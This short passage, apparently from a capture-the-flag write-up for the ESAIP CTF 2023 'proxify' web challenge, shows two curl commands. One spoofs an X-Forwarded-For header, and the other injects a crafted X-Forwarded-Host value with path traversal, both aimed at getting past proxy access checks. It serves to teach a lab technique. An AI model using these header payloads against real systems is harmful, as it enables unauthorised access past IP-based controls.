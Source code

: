 
**Bypass proxies with `X-Forwarded-For`**
```bash
curl -H "X-Forwarded-For: 127.0.0.1" http://exemple.com
```

**Bypass with `X-Forwarded-Host`**
```bash
curl -H "X-Forwarded-Host: 127.0.0.1\@www.supermarioplomberie.fr/../flag" http://localhost:8080
```

# Resources 

- https://github.com/ESAIP-CTF/public-esaip-ctf-2023/blob/master/challenges/web/proxify/
